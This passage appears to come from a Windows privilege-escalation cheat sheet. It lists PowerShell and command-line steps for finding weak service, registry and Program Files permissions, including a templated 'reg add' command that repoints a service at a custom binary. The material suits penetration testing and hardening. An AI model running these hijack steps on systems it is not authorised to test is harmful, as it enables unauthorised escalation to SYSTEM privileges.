 ```powershell
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Update Orchestrator Service
        DEPENDENCIES       : rpcss
        SERVICE_START_NAME : LocalSystem

PS C:\Windows\system32> sc.exe start UsoSvc
```

## Enuemrate Registry permissions

```powershell
accesschk.exe /accepteula -uvwqk <reg>
reg query <reg>
reg add

# Powershell
Get-Acl <reg> | Format-List

# If we can modify the registry, we can make the service points to our custom binary
reg add <reg> /v <reg_name> /t <reg_type> /d <binary_directory> /f
```

## Enumerate Directories Permissions

```powershell
# Are there any weak folder or file permissions?
# Full Permissions for Everyone or Users on Program Folders?
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"

icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users" 

# Modify Permissions for Everyone or Users on Program Folders?
icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "Everyone"

icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users" 
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users"

Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'Everyone'} } catch {}} 
Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'BUILTIN\Users'} } catch {}}
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}

# Writeable folders and files?
accesschk.exe -quws "Everyone" "C:\Program Files"
accesschk.exe -qwsu "Everyone" *
accesschk.exe -qwsu "Authenticated Users" *
accesschk.exe -qwsu "Users" *
```
